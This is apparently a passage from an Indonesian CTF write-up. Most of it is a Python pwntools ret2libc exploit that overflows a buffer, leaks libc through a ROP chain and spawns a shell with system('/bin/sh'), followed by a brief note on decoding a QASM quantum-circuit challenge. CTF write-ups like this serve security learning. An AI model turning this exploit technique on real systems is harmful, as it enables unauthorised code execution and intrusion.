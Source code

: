 ```python

### EXPLOIT HERE ###

got = elf.got.puts
puts = elf.symbols.puts
ret = 0x0000000000401016
pop_rdi = 0x000000000040142b
box = elf.symbols.box
# gdb.attach(p)

payload = flat(
    b'a'*56,
    pop_rdi,
    got,
    puts, 
    box
)
p.sendline(b'2')
p.sendline(payload)

p.recvuntil(b'We will deliver the mythical box to the Library for analysis, thank you!\n\n')
libc.address = u64(p.recvline(0).ljust(8, b'\x00')) - libc.symbols.puts
print(hex(libc.address))
print(hex(next(libc.search(b'/bin/sh'))))
print(hex(libc.symbols.system))

payload = flat(
    b'a'*56,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    ret,
    libc.symbols.system
)
p.sendline(b'2')
# input()
p.sendlineafter(b'Insert location of the library: ', payload)

p.interactive()
```

# Last Hope - ML

diberikan file bernama quantum_artifact.qasm yang merupakan script file Quantum Assembly Language. untuk mendapatkan flag dapat dengan mencompile script tersebut menggunakan qasm simulator. lalu hasil dari compile dapat dilakukan decode binary string.

![https://media.discordapp.net/attachments/1085884758174728202/1088479872822804530/image.png?width=720&height=270](https://media.discordapp.net/attachments/1085884758174728202/1088479872822804530/image.png?width=720&height=270)

![https://media.discordapp.net/attachments/1085884758174728202/1088479967496650752/image.png](https://media.discordapp.net/attachments/1085884758174728202/1088479967496650752/image.png)
